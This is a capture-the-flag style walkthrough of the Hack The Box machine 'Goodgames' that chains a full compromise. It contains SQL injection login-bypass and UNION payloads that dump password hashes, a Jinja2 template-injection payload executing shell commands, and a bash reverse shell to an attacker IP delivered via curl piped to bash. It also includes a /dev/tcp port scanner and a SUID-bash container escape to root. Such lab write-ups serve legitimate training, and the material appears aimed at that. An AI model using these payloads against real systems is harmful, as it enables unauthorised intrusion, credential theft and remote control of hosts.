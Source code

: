 ```yaml
---
title: Goodgames Machine HTB
date: 2023-02-1 00:18:00 +0700
categories: [TOP_CATEGORIE, SUB_CATEGORIE]
tags: [machines]
---
```


# Enumeration

We launch an nmap and get the following results:


```ruby
Scanned at 2022-11-07 12:16:17 CET for 13s
Not shown: 65534 closed tcp ports (reset)
PORT STATE SERVICE REASON
80/tcp open http syn-ack ttl 63
```

So let's analyze the page.

We launch a dirsearch:

```bash
dirsearch -u http://10.129.154.140 -x 404 -t 200
```

If we enter the page and go to the login section after creating an account, we can see how the login panel is vulnerable to SQL injections, so we put this in the burp:
```shell
email=admin%40admin.php'or 1=1-- -&password=xd
```

and we enter the admin account, whose credentials are:

```shell
Nickname: admin  
Email: admin@goodgames.htb  
Date joined: NULL
```

However, from here we can not draw anything, but the conclusion that the field to enter user at the time of logging is vulnerable, so we put a sql injection to get the number of columns that exist, which are 4:

```shell
email=admin%40goodgames.htb' order by 4-- -&password=admin
```

If we play with the union select and group_concat, we can see how the fourth column is the injectable one, so that is where we put our commands, so we get the existing databases:

```sql
' union select 1,2,3,group_concat(schema_name) from information_schema.schemata-- - &password=admin
```

and it reports us the DB information_schemamain and main, so now we try to get the name of the tables from the main DB playing once again with group_concat.

```sql
' union select 1,2,3,group_concat(table_name) from information_schema.tables where table_schema="main"-- -&password=admin
```

The following tables are reported to us:

```sql
-Blog
-Blog comments
-User
```

So we look up the columns of the users table:

```sql
' union select 1,2,3,group_concat(column_name) from information_schema.columns where table_schema="main" and table_name="user"-- -&password=admin
```

And we get the following results:

```sql
-Email
-ID
-Name 
-Password
```

Now we show the information of the users table:

```postgresql
' union select 1,2,3,group_concat(name,0x3a, password) from user-- -&password=admin
```

Where it reports the user ADMIN and its encrypted password, so we decrypt it in crackstation and we have the following credentials

```sql
user: Admin
password: superadministrator
```

Then we take the administrator user out of the database:

```mariadb
USER()-- -
```

and we have that it is main_admin@localhost, so let's see what permissions this one has:

```sql
' union select 1,2,3,PRIVILEGE_TYPE FROM INFORMATION_SCHEMA.USER_PRIVILEGES WHERE grantee="'MAIN_ADMIN'@'LOCALHOST'"-- -&password=admin
```

But it only reports `Usage`, so we have to find another way to see what permissions it has.

So we are going to look for which database manager we are using with the `version()` command, and it gives us the answer, so we know we are dealing with MySQL. 

However, the intrusion cannot be carried out here, so we go to the page, we log in with admin, and when we click on the settings wheel it takes us to a new page (but first we have to add the subdomain and the ip in /etc/hosts). 

Once we access to the page, we see that we are in front of a flask, so we HAVE TO TRY STTI inside the "Full name" field, since it is the only one injectable.

So we go to payloadallthethings, and with the following command:
```python
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}
```

But we are in a container, so we are going to send an IMP trace to see if we have connectivity to the machine:

So first we check if we have external trace with DCPDUMP:
```shell
tcpdump -i tun0 icmp -n
```

and we send a ping from the web/victim_machine, and we receive the packet.

Therefore we create an index.html with a rev shell
````bash
index.html

#!/bin/bash
bash -i >& /dev/tcp/10.10.14.7/443 0>&1
```

so first we create a web sv with `python -m http.server'. 
we upload it to the victim machine with a CURL | bash -c to pipe it with bash and send us the Revshell.

However, we are in a docker, so we have to get out of it. To do this, we set up a bash script to do the nmap functions:

````bash
#!bin/bash

function ctrl_c() {
    echo -e "Exiting...\n"
    tput cnorm; exit 1
}

#ctrl+c
trap ctrl_c INT

tput civis

for port in $(seq 1 65535); do
    timeout 1 bash -c "echo '' > /dev/tcp/IP/$port" 2>/dev/null && echo "[+]Port $port $port - OPEN" &
done; wait
tput cnorm
```

And with this we get that the SSH port is open so we connect via ssh


# Root exploit

as the /home/augustus is mounted inside the container, and we just access the container we are root, 
we exit the ssh and do `cp /bin/bash .` And from the root container we assign owner and group to root with 
`chown root:root bash` , and we give SUID with `chmod 4755 bash` , 
so we can run the bash as root using the parameter -p `./bash -p` and we already have the root flag.
